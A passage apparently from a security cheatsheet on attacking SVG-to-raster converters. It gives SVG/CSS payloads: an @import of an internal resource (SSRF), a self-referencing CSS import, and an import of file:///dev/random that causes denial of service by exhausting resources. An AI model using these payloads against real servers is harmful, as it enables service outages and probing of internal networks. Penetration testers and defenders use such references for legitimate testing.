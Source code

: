 ### CSS @import

```xml
<style type="text/css">
    @import url(http://internal-resource);
</style>

```

#### CSS infinite loading via @import rule

Some CSS engines don't check for the self-references during ```@import``` rule processing. This could be used for DoS scenarios by triggering infinite CSS loading using specially crafted [styles file](https://github.com/yuriisanin/svg2raster-cheatsheet/blob/d31633146d62863b71b1dbdb40b8703f7b1abcc1/assets/css-infinite-import.css). 

![css-infinite-import](https://github.com/yuriisanin/svg2raster-cheatsheet/blob/63a07f7c5dd91b3c577ff31a143c253b50cf5c79/assets/svg-infinite-css-import.png)

#### Infinite loading using ```/dev/random```

In some cases you can trick a library into loading data from the infinite stream, causing significant resource consumption on the server side. Although, it won't crash the application, but it's still can be used for DoS scenarios.

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <style type="text/css">
        @import url(file:///dev/random);
    </style>
</svg>
```
Pseudorandom number generators:

* ```/dev/random```
* ```/dev/urandom```
* ```/dev/arandom```
